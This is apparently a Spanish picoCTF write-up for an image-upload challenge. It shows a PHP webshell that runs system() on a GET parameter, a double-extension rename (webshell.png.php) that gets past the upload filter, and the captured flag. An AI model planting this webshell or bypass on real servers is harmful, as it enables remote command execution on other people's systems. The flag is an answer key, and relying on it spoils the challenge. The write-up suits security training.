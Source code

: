 ## Descripción 
I found a web app that can help process images: PNG images only!
Additional details will be available after launching your challenge instance.
[here](http://atlas.picoctf.net:64753/)!
## Solución 1

Primero nos metemos al link de la página y nos dice que carguemos un archivo, cargamos uno aleatorio y nos da error. Nos metemos al link con /robots.txt y siguiente /instructions.txt.
Después nos metemos a consola y creamos un archivo php webshell, copiamos el archivo `webshell.php` con una nueva extensión doble `webshell.php.png` y renombramos el archivo a `webshell.png.php`. Y por último cargamos el archivo con /uploads y cargamos el archivo que resulta

```
vsalazarz@lap:~$ nano webshell.php
	<?php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
vsalazarz@lap:~$ cp webshell.php webshell.php.png
vsalazarz@lap:~$ mv webshell.php.png webshell.png.php

index.php
instructions.txt
robots.txt
uploads

G4ZTCOJYMJSDS.txt

flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}
```
